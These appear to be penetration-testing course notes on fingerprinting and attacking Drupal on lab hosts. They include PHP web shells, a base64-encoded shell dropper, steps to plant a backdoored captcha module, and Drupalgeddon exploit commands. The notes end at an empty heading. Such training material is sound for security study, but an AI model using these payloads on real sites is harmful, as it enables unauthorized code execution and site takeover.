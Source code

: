 # Drupal - Discovery & Enumeration
## Discovery/Footprinting
A Drupal website can be identified in several ways, including by the header or footer message Powered by Drupal, the standard Drupal logo, the presence of a CHANGELOG.txt file or README.txt file, via the page source, or clues in the robots.txt file such as references to /node.
```
curl -s http://drupal.inlanefreight.local | grep Drupal
```
Another way to identify Drupal CMS is through nodes. Drupal indexes its content using nodes. A node can hold anything such as a blog post, poll, article, etc. The page URIs are usually of the form `/node/<nodeid>`

## Enumeration
```
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```
```
droopescan scan drupal -u http://drupal.inlanefreight.local
```

# Attacking Drupal

## Leveraging the PHP Filter Module
In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the PHP filter module, which "Allows embedded PHP code/snippets to be evaluated
```
http://drupal-qa.inlanefreight.local/#overlay=admin/modules
```
1. Tick the check box next to the PHP filter module 
2. Scroll down to Save configuration 
3. Go to Content --> Add content and create a Basic page
```
<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>
```
4. set Text format drop-down to PHP code
```
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```

From version 8 onwards, the PHP Filter module is not installed by default.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Once downloaded go to Administration > Reports > Available updates
3. From here, click on Browse, select the file from the directory we downloaded it to, and then click Install
4. Once the module is installed, we can click on Content and create a new basic page, similar to how we did in the Drupal 7 example

## Uploading a Backdoored Module
Drupal allows users with appropriate permissions to upload a new module.
1. Download the archive and extract its contents. 
```
wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```
```
tar xvf captcha-8.x-1.2.tar.gz
```
2. Preparing the files to add to the tar file
	1. Create a PHP web shell with the contents `<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]); ?>`
	2. Create a .htaccess file to give ourselves access to the folder `<IfModule mod_rewrite.c> RewriteEngine On RewriteBase / </IfModule>`
3. Copy both of these files to the captcha folder and create an archive:
	1. `mv shell.php .htaccess captcha`
	2. `tar cvf captcha.tar.gz captcha/`
4. Assuming we have administrative access to the website:
	1. Click on `Manage` and then Extend on the sidebar
	2. Next, click on the `+ Install new module` button, and we will be taken to the install page
	3. Browse to the backdoored Captcha archive and click Install.
	4. Once the installation succeeds, browse to /modules/captcha/shell.php to execute commands.
```
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

## Leveraging Known Vulnerabilities
### Drupalgeddon
https://www.exploit-db.com/exploits/34992
This flaw can be exploited by leveraging a pre-authentication SQL injection which can be used to upload malicious code or add an admin user. Let's try adding a new admin user with this PoC script. Once an admin user is added, we could log in and enable the PHP Filter module to achieve remote code execution.
```
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```
Log in as an admin and proceed as above

### Drupalgeddon2
https://www.exploit-db.com/exploits/44448
```
python3 drupalgeddon2.py
```
1. We can check quickly with cURL and see that the hello.txt file was indeed uploaded.
2. replace the echo command in the exploit script with a command to write out our malicious PHP script
```
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
```
```
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

### Drupalgeddon3
